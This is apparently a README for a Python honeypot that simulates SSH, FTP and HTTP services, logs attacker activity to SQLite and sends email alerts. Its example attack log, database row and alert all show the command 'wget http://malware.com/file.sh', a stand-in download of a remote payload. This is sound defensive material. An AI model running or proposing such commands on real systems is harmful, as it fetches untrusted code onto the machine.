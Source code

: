 Honeypot System with Real-Time Alerts

A cybersecurity project that deploys a honeypot server to attract attackers by simulating vulnerable services (SSH, FTP, HTTP). The system logs malicious activities (IP, ports, commands) into a database and sends real-time email alerts when attacks are detected. Useful for analyzing hacker behavior and improving security awareness.

Features

Simulates SSH (22), FTP (21), HTTP (80) services to lure attackers

Logs attacker activities (IP, port, command, timestamp)

Stores logs in SQLite database (honeypot.db)

Sends real-time email alerts for new attack attempts

Supports multi-threaded connections

Extendable for dashboards and threat analysis

Tech Stack

Language: Python

Libraries: socket, sqlite3, logging, smtplib, email.mime, threading, datetime

Database: SQLite (default) / MySQL

Optional Enhancements: Flask/Django (for dashboards), Scapy (for packet capture)

Environment: Linux (Ubuntu Server / VM recommended)

Project Structure
honeypot/
│── honeypot.py # Main honeypot server (multi-port)
│── database.py # Database setup and logging
│── alert.py # Email alert function
│── honeypot.db # SQLite database (auto-created)
│── honeypot.log # Log file (auto-created)
│── requirements.txt # Dependencies
│── README.txt # Documentation

Setup & Installation

Clone the repository:
git clone https://github.com/yourusername/honeypot.git

cd honeypot

Install dependencies:
pip install -r requirements.txt

Configure email settings in alert.py:
EMAIL_SENDER = "your_email@gmail.com
"
EMAIL_PASSWORD = "your_app_password"
EMAIL_RECEIVER = "alert_receiver@gmail.com
"

(For Gmail, generate an App Password instead of using your real password.)

Run the honeypot:
python honeypot.py

Example Attack Log
[2025-09-15 10:12:45] Connection from 185.23.45.10:22 -> wget http://malware.com/file.sh

Database Entry:
ID | IP Address | Port | Command | Timestamp
1 | 185.23.45.10 | 22 | wget http://malware.com/file.sh
 | 2025-09-15 10:12:45

Email Alert:
🚨 Honeypot Alert: New Attack Detected
IP Address: 185.23.45.10
Port: 22
Command: wget http://malware.com/file.sh

Time: 2025-09-15 10:12:45